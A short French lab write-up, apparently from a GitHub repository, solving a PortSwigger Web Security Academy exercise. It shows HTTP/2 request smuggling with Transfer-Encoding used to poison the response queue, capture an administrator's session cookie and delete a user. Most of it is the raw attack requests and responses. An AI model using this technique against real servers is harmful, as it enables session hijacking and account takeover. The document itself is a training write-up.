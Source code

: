 # Lab

https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling

## Solution

La requête à effectuer pour empoisonner la queue de réponse est la suivante :

```http
POST /x HTTP/2
Host: 0a2e002e03aba6a082c41fdf005d0012.web-security-academy.net
Transfer-Encoding: chunked

0


GET /x HTTP/1.1
Host: 0a2e002e03aba6a082c41fdf005d0012.web-security-academy.net


```

Ensuite on fait une requête pour déclencher la réponse qui est dans la queue :

```http
GET / HTTP/2
Host: 0a2e002e03aba6a082c41fdf005d0012.web-security-academy.net
```

Après plusieurs essais, on obtient une `HTTP 302` qui était déstinée à l'administrateur :

```http
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=e8l5V3GeRNfoZXbPjvhvP0vHagZJnwNy; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Puis avec le cookie de connexion de l'administrateur, on peut supprimer l'utilisateur `carlos` :

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a2e002e03aba6a082c41fdf005d0012.web-security-academy.net
Cookie: session=e8l5V3GeRNfoZXbPjvhvP0vHagZJnwNy;

```